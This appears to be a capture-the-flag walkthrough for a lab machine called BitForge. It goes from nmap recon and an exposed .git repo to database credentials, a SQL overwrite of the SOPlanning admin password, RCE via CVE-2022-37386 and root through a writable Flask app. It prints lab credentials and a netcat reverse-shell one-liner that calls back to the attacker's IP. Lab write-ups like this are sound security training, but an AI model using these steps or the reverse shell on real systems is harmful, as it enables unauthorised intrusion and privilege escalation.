

**Start 15:30 19-05-2025**

---
```
Scope:
192.168.102.186
```

# Objectives

:::summary
This lab challenges learners to exploit a web application's misconfigurations, retrieve sensitive data, and escalate privileges to gain root access. Using tools to explore exposed .git directories, compromise the SOPlanning application, and abuse misconfigured permissions, you will develop your skills in enumeration, exploitation, and privilege escalation
:::

In this challenge, learners will exploit a series of vulnerabilities in the BitForge environment, including exposed .git directories, weak password storage mechanisms, and a vulnerable SOPlanning application. The lab culminates in exploiting a writable Flask application to escalate privileges and gain root access, testing skills in enumeration, exploitation, and lateral movement.

# Attack BitForge

- Enumerate the target system to identify open ports and subdomains.

- Exploit exposed .git directories to retrieve sensitive configuration files and credentials.
   
- Gain authenticated access to the SOPlanning application and leverage CVE-2022-37386 to execute arbitrary code.

- Escalate privileges by exploiting misconfigured cron jobs and writable application files.
   
- Achieve root access by modifying application behavior via a Flask-based privilege escalation vector.

## Recon

### Nmap

```bash
sudo nmap -sC -sV bitforge -sT -vvvv -p- -Pn -T5 --min-rate=5000

PORT     STATE  SERVICE    REASON       VERSION
22/tcp   open   ssh        syn-ack      OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open   http       syn-ack      Apache httpd
|_http-server-header: Apache
|_http-title: Did not follow redirect to http://bitforge.lab/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-git: 
|   192.168.102.186:80/.git/
|     Git repository found!
|     .git/config matched patterns 'user'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: created .env to store the database configuration 
3306/tcp open   mysql      syn-ack      MySQL 8.0.40-0ubuntu0.24.04.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=MySQL_Server_8.0.40_Auto_Generated_Server_Certificate
| Issuer: commonName=MySQL_Server_8.0.40_Auto_Generated_CA_Certificate
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.40-0ubuntu0.24.04.1
|   Thread ID: 29
|   Capabilities flags: 65535
|   Some Capabilities: Support41Auth, Speaks41ProtocolOld, LongPassword, SupportsTransactions, IgnoreSigpipes, FoundRows, ODBCClient, SupportsCompression, Speaks41ProtocolNew, InteractiveClient, SwitchToSSLAfterHandshake, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, SupportsLoadDataLocal, LongColumnFlag, DontAllowDatabaseTableColumn, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: +SbaN=J9\x1F?MM.FC:q\x12?d
|_  Auth Plugin Name: caching_sha2_password
```

### 80/TCP - HTTP

We find a `.git` repo using `nmap` so let's check it out:

### git-dumper


Let's check out what we get.

Using `git log` we can check the commit history:


Interesting! Let's check out this commit.


Hell yeah.

```
BitForgeAdmin
B1tForG3S0ftw4r3S0lutions
```

We can try it out on the `MySQL` server since they're creds for a `db`.

### 3306/TCP - MySQL


The creds work and we're in!

I notice 2 non-default databases namely `bitforge_customer_db` as well as `soplanning`.

I decide to check out the latter first.


I wasn't able to crack the hash but also noticed a `cle` part in the table, not knowing what it was I started checking online where I found [this post](https://blog.quarkslab.com/pwn-everything-bounce-everywhere-all-at-once-part-2.html) containing info on how to get access to **SoPlanning**:


## SoPlanning
### MySQL UPDATE on creds

I found a subdomain here:


When I clicked on it I had to add the `plan.bitforge.lab` subdomain to my `/etc/hosts` list.


Another login page, however this time for employees.

Since we still didn't know the exact cleartext password I got kinda stuck.

:::note
I then found out online that I could try and `UPDATE` the password within `MySQL` to fit any other password of my liking, that way I wouldn't have to go to the trouble of cracking the existing hash.
:::

Within the source code I found the standard `SHA-1` password for `admin`:


According to online this password hash SHOULD match `admin`:


Let's try and overwrite it.

```sql
UPDATE planning_user SET password='df5b909019c9b1659e86e0d6bf8da81d6fa3499e' WHERE user_id='ADM';
```


It succeeded! Let's try to log in.

### RCE PoC


We successfully log in!

Let's give the following PoC a shot:


I use `searchsploit` to get the PoC and launch `gobuster` again to verify whether all the endpoints in the PoC match:


Looks good enough, let's launch it.

## Foothold
### Shell as www-data


Awesome, I upgrade my shell:

```bash
busybox nc 192.168.45.185 3306 -e bash
```


I notice there are 2 users on this target, *jack* and *ubuntu*.


At the moment I am not allowed to view either one.


We find something interesting!


Awesome, we can proceed with it as *Jack*, first we need access as him.

I download over `pspy64` to see the running processes:


Luckily for me, amongst the results is the cleartext password for *jack*!

```
jack
j4cKF0rg3@445
```

## Lateral Movement

I log in to `ssh` as *jack*:


###  local.txt




## Privilege Escalation
### Flask app

Returning to the `flask` app we should figure out what to do with it.


Turns out we can run it as *root*?


So it is essentially a bash script that runs `app.py`, got it

Let's go ahead and change the contents of `app.py`:


EZ PZ!

### proof.txt


---

**Finished 17:05 19-05-2025**

[^Links]: [[OSCP Prep]]

